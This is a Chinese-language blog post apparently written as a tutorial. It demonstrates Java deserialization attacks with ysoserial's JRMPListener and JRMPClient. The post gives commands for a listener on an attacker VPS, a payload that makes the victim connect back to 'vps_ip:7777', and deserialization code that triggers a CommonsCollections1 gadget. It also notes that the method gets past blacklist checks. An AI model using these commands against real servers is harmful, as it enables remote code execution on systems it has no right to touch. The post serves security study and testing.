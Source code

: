 ```yaml
---
layout:     post
title:      JRMPListener && JRMPClient使用小记
subtitle:   
date:       2020-04-12
author:     跳跳龙
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - java安全
            
---
```


目前很多的反序列化的漏洞在利用的过程中都使用到了JRMPListener，JRMPClient。但实际上，在ysoserial项目中，exploit和payloads这2个单词意义是不同的。以前我一直都不怎么区分这2个概念。payloads偏向于一种静态的概念，可以是生成的二进制负载数据。exploit更偏向于一种主动的攻击程序。下面我用2个本地的简单的demo就能对比一下。2个demo分别是正着打server和反着打。就是反序列化可以来回打，有种“踢你一脚，结果让人家反手一巴掌”的感觉。

### 使用JRMP模拟RMI Client反打。

#### 第一步
在VPS端开启JRMPListener

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 7777 CommonsCollections1 'open /Applications/Calculator.app/'
```

#### 第二步
在本机生成JRMPClient Payloads

```
java -jar ysoserial.jar JRMPClient 'vps_ip:7777' > jrmpclient.cer
```

![](http://tiaotiaolong2.cn-bj.ufileos.com/blog37-01.jpg)

#### 第三步
在本机电脑上模拟在反序列化的场景，反序列化上一步中生成的payload。

```
FileInputStream fin = new FileInputStream("/Users/tangtianlong/hackingtools/ysoserial/jrmpclient.cer");
        ObjectInputStream obin=new ObjectInputStream(fin);
        obin.readObject();
```

这个时候就会触发本机中的CommonsCollecitons1的调用链。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog37-02.jpg)
VPS端同时也打印了来自客户机的调用日志。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog37-03.jpg)

#### 疑问
这里肯定会有种疑问，客户机中明明存在CommonsCollecitons1的调用依赖，为什么还绕了一大圈才触发Gadget。这种在一些特定的场景下是很有奏效的。

比如客户机这里存在一些黑名单的校验，可以采用这种方式进行反序列化绕过。


### 使用JRMP正打，攻击RMI Server端

#### 第一步

这里为了方便，还是使用一个java原生反序列化的操作。服务器的代码如下：

```
FileInputStream fin = new FileInputStream("/Users/tangtianlong/hackingtools/ysoserial/jrmplistener.cer");
        ObjectInputStream obin=new ObjectInputStream(fin);
        obin.readObject();
```

首先生成待反序列化的payloads 目的是为了让服务器开启1099端口，开放一个rmi服务。
(下图中的代码我直接输出出来了，可以写入到jrmplistener.cer文件中)

![](http://tiaotiaolong2.cn-bj.ufileos.com/blog37-04.jpg)


#### 第二步
1099端口发现开启之后，可以使用exploit/JRMPClient直接打。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog37-05.jpg)

可以弹出日历程序。

其实除了JRMPClient可以攻击server端，还有exploit/RMIRegistryExploit也同样可以攻击rmi server。但是两者的原理是不一样的。 




